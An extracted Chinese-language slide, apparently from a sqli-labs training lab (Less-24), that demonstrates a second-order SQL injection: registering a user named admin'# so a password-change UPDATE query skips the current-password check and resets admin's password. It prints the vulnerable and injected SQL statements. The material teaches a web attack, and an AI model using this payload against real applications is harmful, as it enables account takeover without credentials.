

# Less-24_02
1. 本关中由于对数据库长度做了限制，所以本次只演示替换密码：
2. 首先我们查询目前的users表信息，找到admin的密码
3. 我们用admin’# 注册一个账号，再登录
4.我们修改admin的密码
SQL语句：
UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'
UPDATE users SET PASSWORD='123456' where username='admin'#' and password='$curr_pass'
UPDATE users SET PASSWORD='123456' where username='admin’